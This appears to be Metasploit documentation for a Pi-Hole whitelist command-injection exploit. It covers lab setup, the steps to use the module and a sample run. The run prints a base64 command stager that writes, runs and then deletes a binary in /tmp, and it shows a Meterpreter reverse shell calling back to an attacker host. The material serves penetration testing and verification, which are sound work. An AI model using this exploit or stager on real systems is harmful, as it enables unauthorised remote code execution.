 ## Vulnerable Application

This exploits a command execution vulnerability in Pi-Hole <= 3.3. When adding a 
new domain to the whitelist, it is possible to chain a command to 
the domain that is run on the OS.

### Setup

Install Pi-Hole from source [Pi-Hole 3.2.1](https://github.com/pi-hole/pi-hole/releases/tag/v3.2.1).
Follow the steps in the `automated install` folder.  Select yes to install the web interface.

This installs the newest web interface.  Install
[AdminLTE v3.2.1](https://github.com/pi-hole/AdminLTE/releases/tag/v3.2.1) in `/var/www/html/admin`
instead.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_whitelist_exec```
  4. Do: ```set rhosts```
  4. Do: ```run```
  5. You should get a shell.

## Options

## Scenarios

### Pi-Hole 3.2.1 with AdminLTE 3.2.1 on Ubuntu 18.04

  ```
  msf5 > use exploit/unix/http/pihole_whitelist_exec 
  msf5 exploit(unix/http/pihole_whitelist_exec) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 exploit(unix/http/pihole_whitelist_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/http/pihole_whitelist_exec) > run
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Version Detected: 3.2.1
  [*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgCgGgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/DaQVx.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/QUFVT' < '/tmp/DaQVx.b64' ; chmod +x '/tmp/QUFVT' ; '/tmp/QUFVT' ; rm -f '/tmp/QUFVT' ; rm -f '/tmp/DaQVx.b64'"]
  [*] Using cookie: PHPSESSID=j8o7g4m3e30279850hi275mqhk;
  [*] Using token: OoSESvgJJEWq7mvYBEOJaa/6jyA0GRy56pRZvy93IlU=
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (980808 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:44212) at 2020-05-13 23:25:19 -0400
  [*] Command Stager progress - 100.00% done (763/763 bytes)
  
  meterpreter > getuid
  Server username: no-user @ ubuntu1804 (uid=33, gid=33, euid=33, egid=33)
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 18.04 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
